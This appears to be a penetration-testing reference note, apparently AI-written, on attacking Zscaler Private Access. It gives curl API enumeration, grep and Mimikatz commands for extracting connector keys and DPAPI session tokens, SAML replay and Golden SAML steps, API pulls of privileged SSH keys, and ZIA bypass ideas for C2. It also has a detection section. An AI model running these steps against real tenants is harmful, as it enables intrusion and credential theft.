

# ZPA — Zscaler Private Access

#ZPA #Zscaler #ZTNA #ZeroTrust #cloud #remoteaccess

## What is ZPA?
Zscaler Private Access (ZPA) is a cloud-native Zero Trust Network Access (ZTNA) solution. It brokers access to internal applications via App Connectors (lightweight VMs deployed on-prem or in cloud) and the Zscaler cloud. No inbound firewall ports — connectors initiate outbound TLS to Zscaler. Attack surface includes: tenant misconfiguration, App Connector compromise, SAML/IdP integration abuse, API abuse, and client-side attacks.

---

## Tools

| Tool | Use |
|---|---|
| [[Tools/File Transfer/cURL\|cURL]] | The entire ZPA REST API attack surface (signin, enum, config) |
| [[Tools/Scanning/NMAP\|NMAP]] | Pivot sweep of internal subnets from a compromised App Connector |
| [[Tools/Auth/mimikatz\|mimikatz]] | DPAPI decrypt of the ZPA client's cached session tokens (endpoint) |

Also used inline: `jq` (parse the JSON API responses), and the Zscaler Admin Portal / IdP web UIs.

---

## Architecture



Key components:
- **ZPA Client** — Z-Tunnel 2.0 on endpoints
- **App Connector** — deployed in the private network, connects *out* to Zscaler (no inbound ports)
- **ZPA Admin Portal** — `admin.private.zscaler.com`
- **ZPA API** — `config.private.zscaler.com` (see the API-path caveat below)
- **Browser Access** — clientless browser-based proxy
- **Privileged Remote Access (PRA)** — SSH/RDP via browser

---

## Ports

| Port | Protocol | Notes |
|------|----------|-------|
| 443 | TCP | ZPA client → Zscaler cloud (Z-Tunnel 2.0) |
| 443 | TCP | App Connector → Zscaler cloud (outbound only) |
| 9480 | TCP | App Connector ZPA broker connection |
| Various | TCP/UDP | Internal app ports (App Connector → App) |

> [!note]
> App Connectors have **no inbound ports open** by design. All connectivity is outbound to Zscaler cloud. Direct network path to connector doesn't give VPN-style access.

---

## ZPA Admin Portal Recon

```bash
# Default admin portal
https://admin.private.zscaler.com   # Commercial
https://admin.zscalerone.net         # ZScaler One
https://admin.zscalertwo.net         # ZScaler Two
https://admin.zscalerthree.net       # ZScaler Three
https://admin.zscloud.net            # ZScaler Beta

# Identify which cloud tenant is on via email domain
# Look for: x-zscaler-* headers on traffic from target
curl -sk https://<target-app>/ -v 2>&1 | grep -i zscaler
```

---

## API Authentication

> [!warning] **Verify the API base path against current Zscaler docs.** The `.../api/v1/<resource>` paths used throughout this note are **illustrative shorthand**. The real ZPA config API is versioned and customer-scoped — historically `https://config.private.zscaler.com/mgmtconfig/v1/admin/customers/{customerId}/<resource>` — and Zscaler moves endpoints between versions. Pull your `{customerId}` and the exact paths from the admin portal / the current API reference before relying on any URL here; treat the `$BASE` value below as a placeholder.

```bash
# ZPA uses OAuth2 client credentials
# Credentials: client_id + client_secret from ZPA admin portal

# Get API token
curl -s -X POST "https://config.private.zscaler.com/signin" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "client_id=<id>&client_secret=<secret>&grant_type=client_credentials"

# Store token
TOKEN=$(curl -s -X POST "https://config.private.zscaler.com/signin" \
  -d "client_id=<id>&client_secret=<secret>&grant_type=client_credentials" | \
  jq -r '.access_token')

# API base URL format
BASE="https://config.private.zscaler.com/api/v1"
CLOUD_ID="<your-cloud-id>"   # from admin portal URL or API response
```

---

## ZPA API Enumeration (with API token)

```bash
# List all applications configured in ZPA
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/application?pagesize=500" | jq '.list[] | {name:.name, serverGroups:.serverGroups}'

# List server groups (reveals internal IPs/hostnames)
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/serverGroup?pagesize=500" | jq '.list[] | {name:.name, servers:.servers}'

# List all App Connectors
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/connector?pagesize=500" | jq '.list[] | {name:.name, privateIp:.privateIp, publicIp:.publicIp}'

# List App Connector Groups
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/appConnectorGroup?pagesize=500" | jq '.'

# List users and groups
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/userManagement/users?pagesize=500" | jq '.list[] | {name:.name, email:.email}'

# List SAML/IdP configs
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/idpController?pagesize=100" | jq '.'

# List policy rules (access control)
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/policySet/global/policyType/ACCESS_POLICY" | jq '.'

# List privileged remote access sessions (SSH/RDP)
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/policySet/global/policyType/CREDENTIAL_POLICY" | jq '.'
```

---

## Misconfiguration: Overly Permissive App Segments

```bash
# Look for wildcards in configured applications
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/application?pagesize=500" | jq '.list[] | select(.domainNames[] | contains("*")) | {name:.name, domains:.domainNames}'

# Application with 0.0.0.0/0 or broad IP ranges
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/application?pagesize=500" | jq '.list[] | {name:.name, ipRanges:.ipRanges}'

# Risk: wildcard domain + broad port range = access to entire internal network segment
```

---

## Misconfiguration: No Authentication Policy

```bash
# Check if any apps bypass auth (allow unauthenticated)
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/policySet/global/policyType/ACCESS_POLICY" | \
  jq '.rules[] | select(.action=="ALLOW") | {name:.name, conditions:.conditions}'

# Look for rules with no user/group condition — effectively public access
# Also check if Browser Access apps are reachable without ZPA client:
curl -sk https://<browser-access-app>.zpa.zscaler.com
```

---

## App Connector Compromise

If you gain RCE on a host running an App Connector:

```bash
# Identify App Connector process
ps aux | grep -i zpa
systemctl status zpa-connector

# App Connector config (Linux)
cat /opt/zscaler/var/log/connector.log
cat /opt/zscaler/var/conf/connector.conf

# Extract provisioning key / tenant info from config
grep -i 'key\|token\|tenant\|cloud' /opt/zscaler/var/conf/*.conf

# Network position — connector can reach ALL internal apps it's configured to proxy
# Use connector host as pivot:
nmap -sn <internal-subnet>/24 --exclude <connector-ip>

# The connector has outbound TLS to Zscaler — you won't intercept ZPA sessions
# BUT you can directly access internal apps the connector forwards to:
curl http://<internal-app-ip>:<port>/
ssh <user>@<internal-host>  # if SSH app configured through this connector
```

---

## SAML / IdP Integration Abuse

ZPA relies on SAML/OIDC for user auth (Azure AD, Okta, PingFederate, etc.).

```bash
# Check IdP metadata URL
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/idpController" | jq '.list[] | {name:.name, loginUrl:.loginUrl, metadataUrl:.metadataUrl}'

# SAML response interception (if you MITM or have XSS on IdP)
# Capture SAMLResponse parameter:
# POST /saml/consume or /api/v1/saml

# Replay captured SAML assertion (if no one-time check)
curl -sk -X POST "https://samlsp.private.zscaler.com/auth/saml/consume" \
  -d "SAMLResponse=<base64-encoded-response>&RelayState=<state>"

# If SAML signature not validated properly — forge assertions (rare, need signing key)

# Golden SAML (if AD FS used as IdP — see ADCS/ADFS notes)
# Forge SAML for any ZPA user if you have AD FS token signing cert
```

---

## ZPA Client Manipulation (Endpoint)

```bash
# ZPA client on Windows
# Service: ZPA Service (ZPAService)
sc query ZPAService

# Config files (Windows)
dir "C:\ProgramData\Zscaler\"
type "C:\ProgramData\Zscaler\ZPA\config.toml"   # may contain cloud/tenant info

# Disable ZPA client (requires local admin)
sc stop ZPAService
net stop ZPAService

# With ZPA stopped — traffic no longer tunneled through Zscaler
# BUT: ZPA doesn't route like a traditional VPN — apps aren't reachable from IP alone
# App Connector still needed for app access

# Extract cached credentials / session tokens
# ZPA tokens stored in DPAPI-protected blobs on Windows
dir "%LOCALAPPDATA%\Zscaler\"

# Dump with Mimikatz DPAPI
privilege::debug
dpapi::cred /in:"C:\Users\<user>\AppData\Local\Zscaler\ZPA\<blob>"
```

---

## Browser Access Abuse

ZPA Browser Access exposes apps via a Zscaler-hosted reverse proxy (no client required).

```bash
# Browser Access URLs follow pattern:
# https://<app-name>.<tenant>.zpa.zscaler.com

# Test if Browser Access app is accessible without ZPA client:
curl -sk "https://<app>.zpa.zscaler.com/" -v

# Look for SSRF via Browser Access URLs (app may proxy to internal services)
# Manipulate Host header or app URL parameter to pivot internally

# Check response headers for internal IP leak
curl -sk "https://<app>.zpa.zscaler.com/" -v 2>&1 | grep -i 'x-forwarded\|via\|server'
```

---

## Privileged Remote Access (PRA) — SSH/RDP via Browser

ZPA PRA exposes SSH/RDP sessions through browser — credentials stored in ZPA vault.

```bash
# PRA credential vault — accessible via API
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/privilegedCredentials" | jq '.list[] | {name:.name, credentialType:.credentialType}'

# Credential types: USERNAME_PASSWORD, SSH_KEY
# SSH keys stored in ZPA — may be downloadable via API
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/privilegedCredentials/<id>" | jq '.privateKey'

# Audit PRA session logs
curl -s -H "Authorization: Bearer $TOKEN" \
  "$BASE/privilegedApproval?pagesize=500" | jq '.'
```

---

## ZIA (Zscaler Internet Access) — Related Bypasses

```bash
# ZIA intercepts outbound HTTP/HTTPS — bypass techniques:
# 1. Use non-standard ports (if not all ports inspected)
# 2. Use IPv6 if ZIA only proxies IPv4
# 3. DNS-over-HTTPS (DoH) to bypass DNS filtering
# 4. ICMP tunneling (if ICMP allowed outbound)
# 5. Use allowed cloud storage (GDrive, OneDrive) for C2

# Check which domains are bypassed (PAC file):
curl -sk "http://pac.zscaler.com/<tenant-name>/cgi-bin/proxy.pac"
# PAC file reveals bypass domains — useful for C2 domain selection

# Check ZIA SSL inspection exclusions (admin portal)
# Apps excluded from SSL inspection = no cert validation on traffic
```

---

## Dangerous Settings

| Config | Risk |
|--------|------|
| Wildcard domain in app segment (`*.internal.corp`) | Full internal network access via single ZPA app |
| No IdP attribute mapping (group = any) | All authenticated users get all app access |
| Browser Access without MFA | SSRF/credential phish → direct internal app access |
| App Connector deployed on shared/untrusted host | Connector compromise = internal network pivot |
| PRA credentials stored without session recording | Privileged access without audit trail |
| ZPA API key leaked (client_secret in code/config) | Full tenant admin via API |
| PAC file bypass list is broad | C2 over allowed domains bypasses proxy |
| SSL inspection disabled for app segments | Encrypted C2 traffic not inspected |

---

## Detection & Artefacts

- **The attacker rarely touches the network path** — ZPA enumeration is API calls to `config.private.zscaler.com` and admin-portal activity, all logged **cloud-side** (ZPA Admin > Administration > audit logs; API-key usage per client_id). Anomalous `client_credentials` sign-ins and bulk `application`/`connector` GETs from a new IP are the tell.
- **Leaked API secret is the crown jewel** — a `client_secret` in source/CI/config grants full tenant read (and often write); rotate on exposure and scope API roles. Hunt for `client_secret`/`config.private.zscaler.com` in repos and connector configs.
- **App Connector compromise** shows as unexpected processes/scans from the connector host; the connector's own logs (`/opt/zscaler/var/log/`) and cloud-side connector health/telemetry flag a connector reaching apps it normally doesn't.
- **PRA credential pulls** (privileged SSH keys/passwords via API) should appear in ZPA's privileged-approval/audit trail — a download outside a change window is an IOC.
- **Endpoint:** stopping `ZPAService` or reading `%LOCALAPPDATA%\Zscaler\` DPAPI blobs is local-admin activity; EDR sees the service stop and the DPAPI access.

---

## Quick Reference

| Goal | Command |
|---|---|
| Get API token | `curl -s -X POST https://config.private.zscaler.com/signin -d "client_id=<id>&client_secret=<secret>&grant_type=client_credentials" \| jq -r .access_token` |
| Enumerate apps | `curl -s -H "Authorization: Bearer $TOKEN" "$BASE/application?pagesize=500" \| jq '.list[]'` |
| Enumerate connectors (internal IPs) | `curl -s -H "Authorization: Bearer $TOKEN" "$BASE/connector?pagesize=500" \| jq '.list[].privateIp'` |
| Find wildcard app segments | `... "$BASE/application?pagesize=500" \| jq '.list[] \| select(.domainNames[] \| contains("*"))'` |
| Pull PRA privileged creds | `curl -s -H "Authorization: Bearer $TOKEN" "$BASE/privilegedCredentials"` |
| PAC bypass domains (ZIA) | `curl -sk http://pac.zscaler.com/<tenant>/cgi-bin/proxy.pac` |
| Pivot from connector host | `nmap -sn <connector-subnet>/24` |

*(`$BASE` = the customer-scoped API base — see the API-path caveat above, not a literal `/api/v1`.)*

---

> [!note] **See also** — the whole surface is driven through [[Tools/File Transfer/cURL|cURL]]; a compromised App Connector is a pivot like any VPN foothold — sweep with [[Tools/Scanning/NMAP|NMAP]] and move as in [[Services/Remote Access/Cisco AnyConnect|Cisco AnyConnect]] post-connect. SAML/IdP abuse (Golden SAML) ties to [[Standards & Protocols/SAML|SAML]] and AD FS; endpoint token theft uses [[Tools/Auth/mimikatz|mimikatz]] DPAPI.

---

*Created: 2026-07-13*
*Updated: 2026-09-23*
*Model: claude-opus-4-8*
